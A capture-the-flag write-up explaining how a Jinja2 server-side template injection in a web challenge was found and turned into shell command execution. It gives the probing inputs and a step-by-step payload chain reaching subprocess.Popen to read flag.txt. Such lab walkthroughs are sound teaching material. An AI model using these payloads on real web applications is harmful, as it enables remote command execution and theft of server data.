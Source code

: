 +++
title = 'Say Hello!'
date = '2024-09-05'
authors = ["Achintya J"]
+++

# Say Hello!

So, none of the common web exploitation techniques work here. There is nothing special in the HTTP requests, nothing in web directories or vhosts. At this point you should try out techniques like SSTI, XSS etc. Luckily for us, testing for `SSTI` gives results right away!

		test for SSTI using: {{}} --> gives error means, potential SSTI threat

useful link: https://portswigger.net/web-security/server-side-template-injection

Now that we know its SSTI, we want to understand what template engine is running this. This also we can test using prompts,

		template engine: Jinja2 (test using {{7*'7'}}, if it gives 7777777 then its Jinja2)

once we know the template engine, we can look for ways to exploit this specifically.

useful: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti

Going systematically,
once we have figured out that SSTI is possible in this, test out these things

1. `{{''.__class__}}` should return "str" or "string"
2. `{{''.__class__.mro()}}` should return "str" and "object". We therefore have access to the "object" class if we use something like `{{''.__class__.mro()[-1]}}`. This is amazing!

What we are looking for, is any way to get some function which we can use to read the flag which lies in the server. 

The main thing that stands out in stuff like this, is shell code execution. The thing therefore that we are looking for is a way to execute shell commands, just like using the "os" module in python. 

We can check all the subclasses available to us (not intentionally but since there is a SSTI vulnerability we can use that and see) using this

3. `{{''.__class__.mro()[-1].__subclasses__()}}`

This will return a lot of subclasses. We need to look for something called `<class 'subprocess.Popen'>`. This will allow us to use shell command and execute arbitrary code on the server! After running this command, locate this class and get its index. `For me, it was -12.`

4. `{{''.__class__.mro()[-1].__subclasses__()[-12]}}` gives the class subprocess.Popen. 

Now we can read the "flag.txt" file (this is something you can assume, that the flag's name is flag.txt) using the following command 

5. `{{''.__class__.mro()[1].__subclasses__()[-12]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}`. The additional parameters are as advocated by the link given above.

`flag: FLAG{Sh3n4n1g4ns!nject3d}`

